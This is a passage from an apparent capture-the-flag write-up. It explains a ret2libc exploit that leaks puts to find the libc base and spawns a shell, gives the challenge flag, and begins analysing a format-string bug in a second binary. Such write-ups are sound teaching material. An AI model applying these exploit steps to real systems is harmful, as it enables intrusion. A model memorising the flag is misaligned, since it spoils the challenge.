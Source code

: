 Once the exploit runs, I receive output on stdout containing bytes that represent addresses. I extract the first 4 bytes, which correspond to the address of `puts` in libc. By subtracting the leaked address by the offset of the `puts` function in libc, I calculate the base address of libc.



### Spawning a Shell

With the base address of libc, I can now create the payload exploiting `system`, `/bin/sh`, and `exit` functions in libc to spawn a shell. The payload is constructed as follows:


```python
system_addr = base_libc + libc.symbols['system']
bin_sh_addr = base_libc + next(libc.search(b"/bin/sh"))
exit_addr = base_libc + libc.symbols['exit']

io.sendline(b"a" * EIP_OFFSET + p32(system_addr) + p32(exit_addr) + p32(bin_sh_addr))
```

In my script, I handled the different library offsets by using the provided library to obtain the flag remotely.


### Final Flag

After executing the exploit successfully, I obtained the following flag:

```
BASC{GG_U_g0t_411_it_Tak3s_2_4bu5e_libC___Dv23CbS4}
```




## The Answer

**Security Mitigations:**
```bash
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
```
It's a 64-bit executable with NX and stack canary enabled.

First, I looked at the disassembled code in Ghidra and immediately noticed that the executable is vulnerable to a **Format String** attack. This is because a `printf` prints the user's input without formatting it properly for printing.

```c
  sVar1 = read(0, local_1018, 0x1000);
  if (sVar1 < 1) {
    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("Hi, ");
  printf(local_1018);
```
